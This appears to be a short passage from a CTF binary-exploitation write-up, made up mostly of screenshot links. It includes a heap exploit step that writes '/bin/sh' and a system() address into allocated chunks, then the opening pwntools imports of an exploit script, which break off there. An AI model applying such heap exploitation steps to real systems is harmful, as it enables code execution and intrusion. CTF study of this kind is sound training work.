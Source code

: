 [![](assets/1700186924-72f5fca32983409c2bc97913a8ff5922.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116163041-6d8cddb8-845a-1.png)

‍

```plain
add(0x80,'/bin/sh\x00')

    add(0x80,p64(sys_addr))
```

[![](assets/1700186924-0da703a4bb21ff1bbde9cacf13272975.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116163047-70fb2112-845a-1.png)

[![](assets/1700186924-46b787934413c609473a394be0c5e76a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116163051-73c772f6-845a-1.png)

‍

##### exp：

```plain
# encoding = utf-8
from pwn import *
from pwnlib.rop import *
from pwnlib.context import *
from pwnlib.fmtstr import *
from pwnlib.util.packing import *
from pwnlib.gdb import *
from ctypes import *
import os
import sys
import time
import base64
# from ae64 import AE64
# from LibcSearcher import *
```